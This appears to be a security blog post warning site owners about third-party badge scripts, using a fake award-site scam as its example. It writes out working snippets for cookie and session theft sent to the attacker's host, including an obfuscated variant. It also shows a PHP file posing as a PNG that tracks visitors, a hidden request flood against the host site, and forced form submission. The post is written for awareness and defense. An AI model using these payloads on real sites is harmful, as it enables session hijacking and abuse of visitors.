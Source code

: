 ```yaml
---
layout: post
title: 'The very bad things that Javascript can do: Part 2'
tags:
- html
- javascript
- security
---
```

In part 1, I discussed the various arguments I run into about wanting to be overly security conscious with our sites in regard to third party javascript. In this entry, we'll run through a few scenarios.

In our scenarios here, we're going to focus on a fake award site called “AwardSite” that gave our victim a winning notification. They are in the top 5% of 2013's best websites. The servers have PHP and are apache servers.

Perhaps they send an email like this:

    Hello and congratulations!  Your site, http://victimsite.com, has won the prestigious 
    Best of 2013 award from AwardSite.com!  
     
    Did you know you made it into the top 5%?  We're impressed, and you should be proud!
     
    Below, you'll find a snippet of code to insert into the footer of your website.  
    It shows off your great accomplishment.
     
    Did you know AwardSite.com has a very high Search Engine Optimization ranking?  
    We're already linking to your website - but that doesn't complete the circle.  
    If you use the banner in the code below, you not only show off your reputation 
    this year but that reciprocal link helps Google AND Bing rank your site even higher.
     
    Congratulations again!
     
    Fake Guy
    AwardSite.com

And of course, at the very end of the email is some HTML or Javascript that they are prompted to put into their site.

Now, for our example, we're going to use the following banner:

[![Award](/uploads/2013/award.png)](/uploads/2013/award.png){: .inline}{: .thumbnail}

Now, lets run through some scenarios.

### Hit Counter / Target Determination

In this case, the nefarious hacker wants to determine if this site has a lot of traffic. And, of that traffic, they want to determine what the demographics of the browsers are. This is a very easy information gathering attempt. This is what the code looks like:

```html
<a href="http://awardsite.com">
  <img src="http://awardsite.com/award.png?compress=134">
</a>
```

Let's break down what the code means, and then show the back-end. First, it is just a link to the awardsite website. The image is the banner that you saw above. Finally, that image has a pretty non-conspicuous get parameter called ‘compress' which is set to the ID in the database of this particular victim site. It was important to use a word that SEEMED somewhat legitimate. Of course compress seems ok, so why would I judge that?

On the server, however, the file award.png is actually a PHP file. The apache server has configuration, perhaps in the .htaccess file, like this:

```apache
<Files award.png>
  ForceType application/x-httpd-php
</Files>
```

Then, the **`award.png`** file has the following PHP. (Please note, I've not went to the trouble to make sure this handles EVERY scenario... this is meant as a proof of concept).

Note: `updateSite()` is a function that writes an entry to the database using that siteID. I didn't think it was important enough to show that code too.

```php?start_inline=1
$siteID = isset ($_GET['compress']) ? $_GET['compress'] : null;
 
if ($siteID) {
  $header = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : '';
  updateSite($siteID, $header);
}
 
header('Content-type: image/png');
readfile('sourceawardfile.png');
```

This code basically gets the siteID from the GET query. It then grabs the user agent and inserts that into the database with the siteID. This works as a hit-counter and a demographics tracking. The backend will have to have some sort of analytic processing software to determine which browsers are visiting, etc.

No matter if there's a valid siteID or not, finally the png header gets sent and the real award file is sent to the browser.

In this case, our victim has allowed the “bad guy” to keep track of their visitors, times, and demographics. They can now determine if this is a high traffic site or not – and whether its worth targeting specifically with more sophisticated attacks.

### Cookie Stealing / Session Theft

PHP stores the session key as a cookie on the visitors browser named PHPSESSID by default. If the hacker had this cookie, and the session hadn't expired, they could act as the victim. The goal here is to have a logged in user of victim website visit the bad Javascript. Then, the cookie is sent to the hacker who then uses that to steal the session of the victim.

Here is the source code for the HTML/Javascript from the email:

```html
<a href="http://awardsite.com" id="awardlink">
  <script>
    var i = new Image();
    i.src = 'http://awardsite.com/award.png?c=' + document.cookie;
    document.getElementById('awardlink').appendChild(i);
  </script>
</a>
```

Here, a new image is created. Then, it is sent to the award.png PHP file. In this case, we grab the entire document.cookie. The cookie can then be parsed from the string of the GET parameter. Finally, the image is added to the file and no one is the wiser.

Of course, this kind of can look a bit bad if you see the words ‘document.cookie' – so we can obscure this a bit. Try this:

```javascript
var s = 'http://awardsite.com/award.png';
var i = new Image();
var _0xba4e=["\x63\x6F\x6F\x6B\x69\x65"];
var j=document[_0xba4e[0]];
i.src = concat(s,'?c=', j);
document.getElementById('awardlink').appendChild(i);
```    
        
Of course, it can look bad for our trained eyes... but for those who don't “work on computers” they'll just think its code they don't understand and use it.

**For future examples, I won't show how to obfuscate the code. But that would be one of the steps.**

### Denial of Service for Victim Site

What if we could make the visitor perform a denial of service? That wouldn't be that hard.

```html
<a href="http://awardsite.com" id="awardlink">
  <script>
    var s = 'http://awardsite.com/award.png';
    var i = new Image();
    document.getElementById('awardlink').appendChild(i);
    setTimeout(function() {
      for (var x = 0; x < 1000; x++) {
        var j = new Image();
        j.style = 'display: none';
        j.src = 'http://victimsite.com/someasset.php';
        document.body.appendChild(j);
      }
    }, 3000);
  </script>
</a>
```

In this case, the image is added successfully. However, the `setTimeout()` method executes a different function 3 seconds later. The delay is so that the user won't notice the delay in their browser (hopefully the entire site has loaded by then) – and it puts it in the background. Then, a new ‘image' is created 1000 times and appended to the document – with a hidden display (so the visitor can't tell). But, basically, one visitor to this site, especially if they spent some time just reading the content, loaded 1000 more requests than were necessary.

### Processing Actions as the Victim

We all know that we need to not have forms that submit with the method of GET if the action is something that adds/edits/updates information. This restricts me from creating a sample that uses the `Image()` object to load a fake form submission with GET parameters. However, it doesn't stop us from submitting a form that MAY be on the current page.

```html
<a href="http://awardsite.com" id="awardlink">
  <script>
    var s = 'award.png';
    var i = new Image();
    i.src = s;
    document.getElementById('awardlink').appendChild(i);
    var f = document.getElementById('formID');
    f[0].value = 'Some Nefarious Input';
    f.submit();
  </script>
</a>
```

This code goes and gets the form with an ID of `formID` and populates the first element with some bad information. Then it clicks submit.

This is bad, but there are some potential problems. What if... the form doesn't have an ID? Remember, we could also do some research, determine this is the second form on the page, and substitute the following:

```javascript
var f = document.forms[1];
```

OK, but lets just say its distracting to the visitor when the form is submitting. It takes them away from what they're doing – of course they're going to report it. Well, we can force the form to be ajax, and then submit.

```javascript
f.onsubmit = function() {
  //code to create xmlhttprequest and send form as ajax
};
f.submit();
```

### So what does all this mean?

Now that you've seen the examples of what can happen, I hope it turns on a light that we need to be more vigilant about what we allow clients to put into your hosted applications.
